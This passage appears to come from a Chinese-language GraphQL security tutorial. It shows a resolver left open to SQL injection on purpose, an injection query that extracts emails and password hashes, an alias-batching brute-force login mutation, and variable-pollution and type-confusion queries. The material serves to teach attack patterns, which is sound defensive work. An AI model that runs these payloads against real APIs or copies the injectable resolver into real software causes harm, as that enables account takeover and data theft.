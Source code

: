 ### 3.3 解析器注入漏洞
**易受攻击的解析器实现**：
```javascript
const resolvers = {
  Query: {
    user: (_, { id }) => {
      return db.query(`SELECT * FROM users WHERE id = ${id}`);
    }
  }
};
```

**攻击向量**：
```graphql
query Injection {
  user(id: "1 OR 1=1 --") {
    email
    passwordHash
  }
}
```

## 4. 高级攻击技术
### 4.1 批量操作漏洞
**利用别名实现暴力破解**：
```graphql
mutation BruteForce {
  login1: login(input: {email: "user@test.com", password: "a"}) { token }
  login2: login(input: {email: "user@test.com", password: "aa"}) { token }
  # ...创建 100+ 个别名操作
}
```

### 4.2 查询持久化攻击
**攻击流程**：
1. 通过 `@export` 指令污染变量
2. 利用查询变量缓存机制
3. 跨请求污染执行上下文

```graphql
query EvilQuery($input: String! @export) {
  legitField
}
```

### 4.3 类型混淆攻击
**利用联合类型缺陷**：
```graphql
query TypeConfusion {
  search(text: "admin") {
    ... on User {
      resetPassword(email: "attacker@test.com")
    }
    ... on Post {
      delete
    }
  }
}
```
